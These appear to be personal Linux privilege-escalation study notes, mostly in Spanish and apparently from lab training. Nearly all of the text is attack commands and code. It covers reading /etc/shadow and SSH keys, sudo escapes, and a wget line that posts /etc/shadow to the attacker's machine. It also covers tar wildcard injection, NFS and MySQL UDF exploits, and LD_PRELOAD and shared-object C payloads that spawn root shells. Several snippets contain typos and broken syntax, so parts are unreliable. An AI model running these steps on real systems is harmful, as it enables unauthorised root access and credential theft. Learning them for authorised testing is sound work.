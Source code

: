 Enumeración del sistema
> hostname 
> uname -a //Lista todo la información del OS
> cat /proc/version 
	/etc/*release
	/etc/lsb-release
	/etc/redhat-release
	
> cat /etc/issue
> ps aux //Processos que esta corriendo actualmante 


 Enumeración de usuarios
> whoami
> id 
> sudo -l
> cat /etc/passwd
> cat /etc/shadow 
> cat /etc/group 


 Enumeración de las red
> ifconfig
> ip route 
> arp -a
> ip neigh
> netsat 

Password Huting
>grep --color=auto -rnw '/' -ie 'PASSWORD' --color=always // Grep todo los archivos que tenga la palabra PASSWORD

Archivos que con permisos debiles
> cat /etc/passwd
> cat /etc/shadow
> unshadow passwd shadow
> find / -name authotirzed_key -type f 2>/dev/null
> find / -name id_rsa 2>/dev/null
> chmod 600 id_ rsa = ssh -i id_rsa user@ip -p port

Sudo
> sudo -l to see all the files
    > vim : sudo vim -c '!sh'
    > apache2 : sudo apache2 /etc/shadow //para veer los archivos que no estes autorizados
    > wget : --post-file=/etc/shadow to your machine....
```
Mas en GTFobins
```

Capabilities
> getcap -r / 2>/dev/null
> which python3
> usr/bin/python3 = ./python3 'import os; os.setuid(0); os.system("/bin/bash")'

Crontab
> normal path = cat /etc/crontab 
Wildcard

 create file for exploitation
> touch ruta "--checkpoint=1"
> touch ruta "--checkpoint-action=exec=sh shell.sh"
> echo "#\!/bin/bash\ncat /etc/passwd > /tmp/flag\nchmod 777 /tmp/flag" > shell.sh
> echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > exploit.sh
> /tmp/bash -p
  vulnerable script
> tar cf archive.tar *

SUID

> find / -perm -4000 -type f 2>/dev/null
> find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null //Busca todo los SUID y GUID
NFS

>cat /etc/exports
>Track for no_root_squash files = El directorio se puede montar monturas
>showmount -o <IP>
> mkdir /tmp/mountme
>mount -o rw.vers=2 <IP>:/tmp /tmp/mountme
> echo 'int main() {setgid(0); setuid(0); system("/bin/bash"); return 0}' > /tmp/mountme/x.c
>gcc /tmp/mountme/x.c -p /tmp/mountme/x
>chmod +x /tmp/mountme/x
> And execute ./x
   
 Exploits de servios  
   
   > 	cd /home/user/tools/mysql-udf
   >	gcc -g -c raptor_udf2.c -fPIC
   >	gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc
   
   >mysql -u root 
   >use mysql;
create table foo(line blob);
insert into foo values(load_file('/home/user/tools/mysql-udf/raptor_udf2.so'));
select * from foo into dumpfile '/usr/lib/mysql/plugin/raptor_udf2.so';
create function do_system returns integer soname 'raptor_udf2.so';
> select do_system('cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash');
> /tmp/rootbash -p

   
Shared Object Injection

> find / -type f -perm -4000 -ls  2>/dev/null

> strace PATH 2>/dev/null
 //Hunt for no such file or directory and write a code which give us root shell permissions
  grep -i -E “open|acess|no such file”
  
  
  CODE::
  
  #include <stdio.h>
  #include <stdlib.h>
  
  stactic void injec() __attribute>>((constructor));
  
  void inject(){
	system("cp /bin/bash /tmp/bash && chmod +s /tmp/bash && /tmp/bash -p");  
  }
  
  gcc -shared -fPIC -o /PATH/PATH/Original name.so 
  
  Binary Symlinks (nginx exploit)
  
  > dpkg -l | grep nginx 
  
  > We need the SUID set to Sudo to get the exploit work 
  >./nginxed-root.sh /var/log/nginx/error.log
  
  
	Enviromental
	
	> env 
	
	> find / -perm -4000 2>/dev/null
	
	find env suid's
	
	> echo “int main(){ setgui(0); setuid(0); system("/bin/bash"); return0;}” > /tmp/service.c
	> gcc /tmp/service.c -o /tmp/service
	> export path=/tmp:$PATH
	// execute the suid
	
	
		-Si llama desde /usr/bin/X tenemos otras vias de hacer esto
		
	function usr/sbin/service() {cp /bin/bash /tmp/bash; chmod +s /tmp/bash; /tmp/bash -p;}	
	
	export -f /usr/sbin/service
	
	and execute the suid
	
	
	
		Apache2
				
		sudo apache2 -f /etc/shadow
		
	
		LD_PRELOAD
		
		sudo -l 
		
		code :
		
		#include <stdio.h>
		#include <sys/types.h>
		#include <stdlib.h>
		
		void_init(){
		unsetenv("LD_PRELOAD");
		setgid(0);
		setuid(0);
		system("/bin/bash")		
		
		}
			
		gcc -fPIC -shared -o /tmp/x.so x.c -nostarfiles
		
		sudo LD_PRELOAD=/tmp/.so apache2
